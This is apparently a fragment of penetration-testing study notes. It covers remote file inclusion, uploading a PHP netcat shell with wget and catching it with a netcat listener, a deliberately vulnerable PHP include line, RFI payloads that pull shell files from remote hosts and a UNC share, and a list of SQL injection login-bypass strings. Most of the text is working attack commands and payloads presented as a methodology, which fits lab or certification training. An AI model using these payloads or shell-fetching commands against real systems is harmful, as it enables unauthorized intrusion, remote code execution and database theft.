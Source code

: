 I upload the exploit.php.txt using the script 11-208.sh that we just created with the following command :

```
root@kali:/var/www# ./11-208.sh wget http://*target*/php-nc-shell.php.txt -O /tmp/php-nc-shell.php
```

I controll that the file was upload in the /tmp/ of the target: Below we can list the /tmp file

```
root@kali:/var/www# ./11-208.sh ls -lh /tmp/

```
Then I used netcat or meterpreter. 

nc -lvp 443


<?php include(*dollar-sign*_GET['file'] . ".htm"); ?>

?file=https://websec.wordpress.com/shell

?file=https://websec.wordpress.com/shell.txt?

?file=https://websec.wordpress.com/shell.txt%23

(requires allow_url_fopen=On and allow_url_include=On)

?file=\\evilshare\shell.php

(bypasses allow_url_fopen=Off)


### burp decoder

If you have found any encoded text send it to burp decoder now

### SQL-Injection recon

Get the name and the vesion then look for exploits

- Name:
- Version:

http://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref

Refer to the web application work book under SQL tab
```
SELECT
INSERT
UPDATE
DELETE
```
Refer to the PWK workbook V1.3 under SQL injection

```
' or 1=1--
" or 1=1--
or 1=1--
' or 'a'='a
" or "a"="a
') or ('a'='a
'"1
devnull' or '1
```
First thing you do if you get an error message is google it and verify which sql language it could be associated with.
